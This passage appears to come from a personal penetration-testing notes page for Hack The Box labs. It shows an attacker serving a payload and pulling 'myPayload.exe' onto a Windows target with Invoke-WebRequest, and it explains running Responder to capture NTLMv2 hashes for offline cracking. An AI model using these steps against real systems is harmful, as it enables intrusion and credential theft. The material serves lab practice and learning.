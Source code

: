 On the local machine:

```terminal
$ python -m http.server
```

Then on the remote machine:

```terminal
PS > Invoke-WebRequest -URI http://10.10.10.10:8000/myPayload.exe -OutFile .\myPayload.exe
```

And you're off to the races.

## Exploit Techniques

I didn't really know how to categorize this section, since this is kind of a loose set of ways to obtain a foothold, but here it is anyway. Here are some ways I've come across to at least obtain a foothold of sorts.

### Responder

The `responder` binary is a great tool against a windows server, especially if the server is part of a windows domain. In fact it's a pretty nifty application for many uses, even so far as to respond to DHCP requests with your own WPAD server. It'll even start up the rogue WPAD proxy server for you! But by and large, the biggest reason I'll ever have to run `responder` is to set up a service that I'm attempting to get the remote Windows server to connect to. If I have some way of having the server connect _back to me_, be it SMB, LDAP, WinRM, HTTP/HTTPS, DNS, etc -- this will respond to those requests...AND dump the authentication hash token that the windows server used to connect with. This NTLMv2 hash can be cracked offline potentially if the user connecting is an actual user account and not a service account whose password isn't randomly generated. Unless of course the service account actually _does_ have a password created by a human, something that does happen more often than one might think.

To run responder, you not only have to run it as root (since it listens on ports less than 1024), but you also have to specify the interface it will listen on. For Hack The Box, typically this is `tun0` for me, but YMMV:

```terminal
$ sudo responder -I tun0                                                    
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.4.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C
```
